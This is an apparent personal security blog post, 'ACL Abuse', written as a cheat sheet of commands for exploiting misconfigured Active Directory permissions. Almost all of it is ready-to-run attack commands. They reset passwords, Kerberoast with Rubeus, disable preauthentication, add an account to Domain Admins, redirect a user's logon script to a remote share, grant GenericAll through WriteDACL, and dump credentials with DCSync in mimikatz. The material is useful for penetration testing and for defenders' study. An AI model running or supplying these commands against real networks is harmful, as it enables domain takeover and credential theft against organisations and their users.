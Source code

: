```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: ACL Abuse
---
```


Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

## GenericAll / GenericWrite / WriteProperty

### On a User
1. **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
2. **Targeted Kerberoasting**
    1. Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    2. Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    3. Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
3. **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### On a Group
1. **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**

## Special Rights Abuse

1. GenericWrite on User
- Overwrite logon script path for the target user:
```bash
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```
2. AllExtendedRights
- Change Password
```bash
net user <username> <password> /domain
```
- Add to Group
```bash
net group "domain admins" spotless/add /domain
Add-ADGroupMember -Identity "domain admins" -Members spotless
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
3. Self-Membership (Add to Group)
```bash
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
4. ExtendedRight (User-Force-Change-Password (Password Reset))
```bash
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
```
5. WriteProperty (Add to Group)
```bash
Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
```
6. WriteOwner (Change the object’s owner)
```bash
Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
```
7. WriteDACL (Grant Generic Permissions** (must be the owner))
```bash
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```
8. DCSync Attack 
- The user running the command must have Replicating Directory Changes permissions in Active Directory. This is typically assigned to domain admins or equivalent privileged accounts.
```bash
lsadump::dcsync /domain:<Domain> /user:<User>
lsadump::dcsync /domain:example.com /user:administrator
```


---

[back](../adprivesc.html)